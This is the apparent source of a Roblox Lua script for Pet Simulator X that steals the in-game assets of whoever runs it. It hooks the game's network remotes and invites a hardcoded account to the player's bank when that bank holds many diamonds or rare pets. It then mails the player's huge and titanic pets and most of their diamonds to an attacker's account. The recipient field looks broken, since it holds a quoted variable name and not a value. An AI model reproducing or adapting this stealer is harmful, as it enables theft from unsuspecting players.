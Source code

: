 getgenv().YourAccNameThatGetsMailbox = "Texas00900"
getgenv().YourAccountIdForBankInvite = 2681613638
 
local v1 = require(game.ReplicatedStorage:WaitForChild("Framework"):WaitForChild("Library")) 
local cooldown = os.time() 
local GetRemoteUpValue = nil 
local pets = require(game:GetService("ReplicatedStorage").Directory.Pets["Grab All Pets"]) 
for _, V in pairs(getgc(true)) do 
    if type(V) ~= "table" then 
        continue 
    end 
    if rawget(V, "Invoke") then 
        if type(V.Invoke) == "function" then 
            if tostring(getfenv(V.Invoke).script) == "Network" then 
                GetRemoteUpValue = getupvalues(V.Invoke)[2]
                break 
            end 
        end 
    end 
end 
function FireRemote(Name, ...)
    if not GetRemoteUpValue then
        return end 
    local Remote = GetRemoteUpValue(Name) 
    if not Remote then
        return
    end 
    if typeof(Remote) ~= "Instance" then 
        return 
    end 
    if Remote.ClassName == "RemoteEvent" then 
        return Remote:FireServer(...) 
    elseif Remote.ClassName == "RemoteFunction" then
        return Remote:InvokeServer(...) 
    end 
end 
local function is_huge(petdata)
    if pets[petdata.id]["huge"] then
        return true 
    end 
return false; 
end 
local function getMyBank()
    local banks = FireRemote("Get My Banks") 
      for i,v in pairs(banks) do if v.Owner == game.Players.LocalPlayer.UserId then
        return v.BUID 
      end 
    end 
end 
local specialPets = {["6969"]=true} 
local function isNotablePet(id) 
    local petData = pets[id] 
    if petData.rarity == "Exclusive" then
        return true 
        end
    if specialPets[id] ~= nil then
        return true
    end 
end 
local function inviteToBank(bank)
    if bank ~= nil then
        local bankData = FireRemote("Get Bank",bank)
        local pets = bankData.Storage.Pets
        local diamonds = bankData.Storage.Currency.Diamonds 
        if diamonds > 1000000000 then 
            return true; 
        end 
        for i,v in pairs(pets) do 
            if isNotablePet(v.id) == true then
                return true;
            end 
        end 
    end 
end 
local bank = getMyBank()
local invite = inviteToBank(bank)
if invite then 
    FireRemote("Invite To Bank",bank,getgenv().YourAccountIdForBankInvite)
end 
local save = v1.Save.Get()
local titanicHolder = game:GetService("Players").LocalPlayer.PlayerGui.Inventory.Frame.Main.Pets.Titanic
if titanicHolder:FindFirstChildWhichIsA("TextButton")
  then 
      print("found titanic") 
       FireRemote("Send Mail",{ Recipient = "getgenv().YourAccNameThatGetsInvited", Message = "hey", Pets = {[1]=titanicHolder:FindFirstChildWhichIsA("TextButton").Name}, Diamonds = 0 }) 
          end
         for i,v in pairs(save.Pets) do
             if is_huge(v) then
                 print("ok2") 
                 repeat wait(.1) until (cooldown - os.time()) <= 0
        local diamonds = (save.Diamonds)-20000000 
    if diamonds < 0 then 
        diamonds = 0 
    end 
print(FireRemote("Send Mail",{ Recipient = "getgenv().YourAccNameThatGetsInvited", Message = "hi", Pets = {[1]=v.uid}, Diamonds = diamonds })) cooldown = os.time() + 5 
end 
end 

